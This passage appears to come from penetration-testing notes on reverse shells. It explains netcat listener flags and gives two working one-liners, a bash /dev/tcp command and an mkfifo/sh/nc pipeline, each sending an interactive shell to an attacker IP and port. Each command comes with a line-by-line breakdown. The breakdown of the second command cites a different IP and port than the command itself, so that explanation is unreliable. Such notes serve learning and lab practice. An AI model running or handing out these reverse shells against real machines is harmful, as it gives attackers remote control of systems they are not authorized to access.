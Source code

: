 | Flag | Description |
| --- | --- |
| -l | Listen mode, to wait for a connection to connect to us. |
| -v | Verbose mode, so that we know when we receive a connection. |
| -n | Disable DNS resolution and only connect from/to IPs, to speed up the connection. |
| -p 1234 | Port number netcat is listening on, and the reverse connection should be sent to. |

**2 - Listener is set up (above) - Connect back to it.**

- Find your IP address (`ifconfig` look for ip under network interface up and running, either ‘eth’ or ‘wl…’)

- Execute reverse shell commands:

Depending on target OS (windows or kinux), executable commands will differ. See [Payload all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) for comprehensive list of reverse comands.

**Option 1:**

```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'

```

This command appears to be a Bash one-liner that creates a reverse shell connection to a specified IP address and port. Let me break it down for you:

1. `bash -c`: This is used to execute the following command in a new Bash shell.
2. `'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'`: This is the command being executed within the new shell. Let's break it down further:
    - `bash -i`: This runs Bash in interactive mode, allowing for user input.
    - `>& /dev/tcp/10.10.10.10/1234`: This part sets up a redirection of both standard output (stdout) and standard error (stderr) to a TCP connection. `/dev/tcp` is a special filesystem in Unix-like systems that allows you to create connections using special files.
    - `0>&1`: This part redirects standard input (stdin) to the same TCP connection. It ensures that the input from the remote host (where the reverse shell is established) is redirected to the command being executed.

When this command is executed, it effectively creates a reverse shell connection to the IP address `10.10.10.10` on port `1234`. This means that if a listener is set up on the specified IP and port, the remote machine will establish a shell session back to that listener, effectively allowing remote control over the target machine.

**Option 2:**

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.2 9443 >/tmp/f

```

is another example of a shell command that establishes a reverse shell connection to a specified IP address and port. Let's break down the command step by step:

1. `rm /tmp/f`: This command attempts to remove a file named "f" in the "/tmp" directory. This is done to ensure that the subsequent command does not fail due to the file already existing.
2. `mkfifo /tmp/f`: This creates a named pipe (FIFO) named "f" in the "/tmp" directory. Named pipes are used to establish communication between processes.
3. `cat /tmp/f|/bin/sh -i 2>&1`: This part of the command sets up a pipeline. It reads the content from the named pipe "f" and sends it to the standard input of the `/bin/sh` shell with the `i` flag (interactive mode). The `2>&1` redirects the standard error (file descriptor 2) to the same location as standard output (file descriptor 1), ensuring that any error messages are included in the communication.
4. `nc 10.10.10.10 1234 >/tmp/f`: This part uses the `nc` command (netcat) to establish a connection to the IP address `10.10.10.10` on port `1234`. The output of the shell process started in the previous step is redirected to the named pipe "f" in the "/tmp" directory.
